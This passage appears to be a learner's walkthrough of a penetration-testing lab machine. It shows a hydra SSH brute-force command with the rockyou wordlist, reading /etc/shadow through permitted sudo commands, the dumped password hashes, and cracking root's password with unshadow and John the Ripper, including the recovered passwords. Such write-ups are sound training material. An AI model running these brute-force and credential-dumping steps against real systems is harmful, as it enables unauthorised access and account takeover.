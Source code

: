 ```
scanner::93:
nobody::98:nobody
nogroup::99:
users::100:
console::101:
```
I noticed the warning near `root` in the group file.
I also noticed that `aadams` was in the wheel group.
After searching on the internet it appeared that wheel has access to sudo commands specified in `/etc/sudoers`.
I was trying to find setuid programs using `find / -type -f -perm /2000` and `find / -type f -perm /4000` but no custom files were there.
So i stopped hydra from bruteforcing all the usernames in the user list and went onto only the account 'aadams' with rockyou.
```
hydra -l aadams ssh://192.168.1.100 -P /usr/share/wordlists/rockyou.txt.gz -t 4
```
After some minutes there was a password found, 'nostradamus'.
So i login on the machine using ssh.
```
aadams@slax:~$ 
```
And i was in.
I immediatly checked what commands i could access using sudo with `sudo -l`:
```
User aadams may run the following commands on this host:
    (root) NOEXEC: /bin/ls
    (root) NOEXEC: /usr/bin/cat
    (root) NOEXEC: /usr/bin/more
    (root) NOEXEC: !/usr/bin/su *root*
```
I tried going into root with password root, with no success.
Now i went to view the contents of `/etc/shadow`:
```
root:$1$TOi0HE5n$j3obHaAlUdMbHQnJ4Y5Dq0:13553:0:::::
bin:*:9797:0:::::
daemon:*:9797:0:::::
adm:*:9797:0:::::
lp:*:9797:0:::::
sync:*:9797:0:::::
shutdown:*:9797:0:::::
halt:*:9797:0:::::
mail:*:9797:0:::::
news:*:9797:0:::::
uucp:*:9797:0:::::
operator:*:9797:0:::::
games:*:9797:0:::::
ftp:*:9797:0:::::
smmsp:*:9797:0:::::
mysql:*:9797:0:::::
rpc:*:9797:0:::::
sshd:*:9797:0:::::
gdm:*:9797:0:::::
pop:*:9797:0:::::
nobody:*:9797:0:::::
aadams:$1$6cP/ya8m$2CNF8mE.ONyQipxlwjp8P1:13550:0:99999:7:::
bbanter:$1$hl312g8m$Cf9v9OoRN062STzYiWDTh1:13550:0:99999:7:::
ccoffee:$1$nsHnABm3$OHraCR9ro.idCMtEiFPPA.:13550:0:99999:7:::
```
I forgot how i could crack the password from this so i searched `linux crack /etc/shadow` and found out how to do it with john the ripper and unshadow.
I copied both the contents of shadow and passwd to my own machine and did unshadow on it, and let john loose on the output file.
john cracked the password for root, as it was 'tarot'.
I couldn't login as root using ssh, so i went back to aadams' account and used `su root`.